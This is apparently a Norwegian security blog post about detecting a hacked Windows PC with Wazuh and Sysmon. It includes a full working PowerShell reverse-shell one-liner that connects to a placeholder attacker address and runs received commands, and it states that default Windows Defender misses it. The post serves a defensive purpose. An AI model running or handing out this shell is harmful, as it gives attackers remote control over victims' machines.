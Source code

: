 ```yaml
---
tittel: Oppdage skurker i maskinen
beskrivelse: Skurkene har hacket en maskin på nettet. Hvordan kan vi oppdage dem?
tags: 
 - post
date: 2023-09-05
layout: layouts/post.njk
---
```

# En Windows-PC blir hacket
Scenario: en hacker har overbevist en medarbeider om å kjøre et script i Powershell. Dette gir hackeren et 
reversskall, altså et kommandolinjevindo til å direkte kontrollere maskinen. Hackeren benytter muligheten til å 
legge inn oppstart av reversskallet som en planlagt oppgave i Windows (Schtasks) som kjører hver gang 
maskinen starter opp. 

Hvordan kan vi oppdage dette? Et godt antivirusprogram skulle man jo tro skulle blokkere dette, men 
det er fullt mulig å få til dette uten at det oppdages. Dersom, for eksempel, Windows PC-en 
kjører Windows 10 med innebygd Windows Defender som sikkerhetsløsning, blir følgende reversskall 
for eksempel ikke detektert: 

```
$LHOST = "10.10.10.10"; $LPORT = 9001; $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamReader = New-Object IO.StreamReader($NetworkStream); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $Buffer = New-Object System.Byte[] 1024; while ($TCPClient.Connected) { while ($NetworkStream.DataAvailable) { $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length); $Code = ([text.encoding]::UTF8).GetString($Buffer, 0, $RawData -1) }; if ($TCPClient.Connected -and $Code.Length -gt 1) { $Output = try { Invoke-Expression ($Code) 2>&1 } catch { $_ }; $StreamWriter.Write("$Output`n"); $Code = $null } }; $TCPClient.Close(); $NetworkStream.Close(); $StreamReader.Close(); $StreamWriter.Close()
```

Dette ble testet på en Win10-maskin som kjører på Amazon Workspaces, og monitorert med en 
Wazuh-agent uten endringer i konfigurasjon fra standard. 

## Enkel forbedring
Ved ganske enkelt å installere [Sysmon](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon) med
konfig-fila fra [SwiftOnSecurity](https://github.com/SwiftOnSecurity/sysmon-config), blir situasjonen 
en annen. Wazuh fyrer opp med alerts, og vi oppdager hva skurkene har fore. 


